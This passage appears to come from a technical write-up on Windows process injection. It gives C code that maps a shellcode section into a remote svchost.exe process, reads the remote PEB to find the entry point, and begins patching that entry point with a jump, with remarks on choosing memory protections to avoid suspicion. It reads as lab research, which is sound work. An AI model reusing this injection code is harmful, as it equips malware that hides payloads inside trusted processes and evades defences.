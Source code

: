 #### 3. Mapping the section

The newly created malicious section is then mapped into the remote process. The remote image base address `rBaseAddr` is set to Zero, this means that the operating system will decide where to map the image.

```c
LPVOID rBaseAddr = 0;
SIZE_T sSize = 0;
NtMapViewOfSection(hSection, pi.hProcess, &rBaseAddr, 0, shellcode_size, NULL, &sSize, ViewUnmap, 0, PAGE_EXECUTE);
```

#### 4. Grabbing offsets

This is the part where it starts to get wonky. Instead of using the locally mapped section of *svchost.exe*, I used `NtQueryInformationProcess` to get the base address of the remote PEB. Next I used `NtReadVirtualMemory` to read the remote PEB. Once I have access to the remote PEB, I can use it to read the remote image base address of *svchost.exe*.

With the remote image base address, I can use `NtReadVirtualMemory` again to read the image headers, which in turn are used to read the remote *entry point* address.

```c
PROCESS_BASIC_INFORMATION basicinfo;
ULONG bytesWritten = 0;
NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &basicinfo, sizeof(PROCESS_BASIC_INFORMATION), &bytesWritten);

PEB peb = { 0 };
SIZE_T bytesRead = 0;
NtReadVirtualMemory(pi.hProcess, basicinfo.PebBaseAddress, &peb, sizeof(PEB), &bytesRead);

DWORD64 imageBase = (DWORD64)peb.ImageBaseAddress;

BYTE headersbuffer[4096];
NtReadVirtualMemory(pi.hProcess, (LPVOID)imageBase, headersbuffer, 4096, NULL);

PIMAGE_DOS_HEADER pDosH = (PIMAGE_DOS_HEADER)headersbuffer;
PIMAGE_NT_HEADERS pNtH = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersbuffer + pDosH->e_lfanew);
LPVOID rEntrypoint = (LPVOID)(imageBase + pNtH->OptionalHeader.AddressOfEntryPoint);
```

#### 5. Updating the entrypoint and patching the PEB

At this stage I'm experimenting, and let's just say my lab would have blown up multiple times by now if this was chemistry.

First I need to change the memory protection of the first 6 bytes of the remote *entry point*, they're set to **PAGE_EXECUTE_READ** by default and I will need **PAGE_READWRITE** access. I could also change protections to **PAGE_EXECUTE_READWRITE** but having an executable and writable memory block is extremely suspicious.

After changing the protections, I construct a patch that will overwrite the remote image base address with a `JMP <offset>; RET;` instruction. 
